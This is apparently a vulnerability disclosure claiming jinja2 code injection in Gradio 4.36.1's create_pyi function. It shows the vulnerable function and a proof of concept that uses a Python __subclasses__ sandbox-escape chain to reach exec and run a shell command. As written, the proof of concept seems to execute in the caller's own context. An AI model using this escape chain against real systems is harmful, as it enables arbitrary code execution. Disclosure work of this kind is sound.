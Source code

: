 ### version

4.36.1

### description

When users generate pyi, they do not check the input, which leads to code injection by jinja2 during rendering.

### Source code

```python
def create_pyi(class_code: str, events: list[EventListener | str]):
    template = Template(INTERFACE_TEMPLATE)
    events = [e if isinstance(e, str) else e.event_name for e in events]
    return template.render(events=events, contents=class_code)
```

PoC:

```python
import gradio as gr

# Define the events
events = ["on_load"]

pyi_code = gr.component_meta.create_pyi(''.__class__.__base__.__subclasses__()[139].__init__.__globals__['__builtins__']['exec']('import os; os.system("id")') , events)
```

### Impact:

The vulnerability allows attackers to execute arbitrary code.
